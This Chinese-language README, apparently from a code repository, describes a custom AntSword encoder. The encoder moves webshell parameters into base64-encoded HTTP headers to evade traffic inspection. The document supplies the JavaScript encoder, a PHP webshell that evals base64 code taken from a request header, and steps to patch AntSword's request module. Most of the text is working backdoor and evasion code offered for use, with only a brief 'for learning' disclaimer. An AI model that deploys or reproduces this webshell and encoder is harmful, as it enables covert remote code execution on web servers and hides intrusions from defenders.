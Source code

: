 # 在AntSword中使用header传参

其实是好久之前写的，不过现在拿出来水一下。仅作思路交流，仅使用了base64编码。真实情况下可以结合其他编码混合使用。如果出现中间件报错400，可以改小data[_].length < 10000中10000的值。

-----

## 使用

1. 新建php编码器，输入encode.js中的内容。
```javascript
'use strict';
module.exports = (pwd, data, ext={}) => {
  for (let _ in data){
    if( _ === '_') { continue;}
    if(data[_].length < 10000){
      while(data['_'].indexOf(_)!=-1){
        data['_'] = data['_'].replace('$_POST["'+ _ +'"]','$_SERVER["HTTP_'+_.toUpperCase()+'"]');
      }
      ext.opts.httpConf.headers[_] = data[_];
      delete data[_];
    }
  }
  ext.opts.httpConf.headers[pwd] = new Buffer.from(data['_']).toString('base64');
  delete data['_'];
  return data;
}
```

2. PHPshelldemo
```php
<?php
// 连接密码：check
$b = base64_decode(getenv('HTTP_CHECK'));
eval($b);
?>
```

3. 去除掉Content-type中烦人的application/x-www-form

   替换 antSword\modules\requests.js 为本仓库下的requests.js 
   
   

可以抓包进行验证。只有在data[_].length >= 10000的情况下使用POST请求，其他情况下皆使用GET请求。



仅供学习交流使用，本人不为非学习用途所带来的恶意后果负责。